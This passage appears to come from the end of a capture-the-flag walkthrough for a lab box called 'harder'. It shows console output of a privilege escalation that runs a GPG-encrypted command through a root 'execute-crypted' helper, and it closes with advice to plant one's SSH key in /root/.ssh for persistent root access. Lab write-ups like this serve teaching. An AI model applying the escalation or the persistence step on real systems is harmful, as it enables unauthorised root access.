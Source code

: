 ```console

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y   
harder:~$ /usr/local/bin/execute-crypted cmd.gpg # run the encrypted cmd
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7__________________
```

if you wanna gain permanent root. import ur ssh key and put it in `/root/.ssh`. GL have fun